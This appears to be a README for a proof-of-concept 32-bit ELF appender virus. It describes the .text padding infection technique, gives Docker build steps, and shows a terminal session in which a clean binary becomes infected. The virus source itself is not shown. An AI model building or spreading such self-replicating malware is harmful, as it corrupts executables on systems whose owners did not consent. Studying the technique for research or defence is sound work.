 ELF x86 appender virus in 800b
===============================
The virus infects every infectable elf executable in the current directory using [Silvio's](https://en.wikipedia.org/wiki/Silvio_Cesare) classic .text section padding technique. Without debugging symbols it comes in at 800b

* mmap host for improved efficiency 
* virus length using jmp trick so no bootstrapping
* overwrites ELF header entry point
* 32bit only

Compile
-------

The virus runs in docker although you do not have to use docker. To compile the image run 

`docker build -t virus .`. 

To run the image use the `docker.sh` script. Once inside the docker container do `cd /virus/ && make` to compile. The virus code and host will be stored in `/tmp`

```
18:57 $ ./docker.sh

root@5d3f53a66f94:/# cd /virus/
root@5d3f53a66f94:/virus# make
root@5d3f53a66f94:/virus# cd /tmp/

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
cb261f205ba23d2fcc49fecbcd91e072  host
entry point address:              0x8048320
host is clean

root@5d3f53a66f94:/tmp# ./info.sh appender
**** appender ****
81cb4c926b9da8cea19806f1fda2c658  appender
entry point address:              0x80482f0
appender is infected

root@203ff78bcad2:/tmp# ./host
hello world
root@203ff78bcad2:/tmp# ./appender
infect
root@203ff78bcad2:/tmp# ./host
infect
hello world

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
72f68dd92d78201725a85b4b00254848  host
entry point address:              0x80485bd
host is infected
```

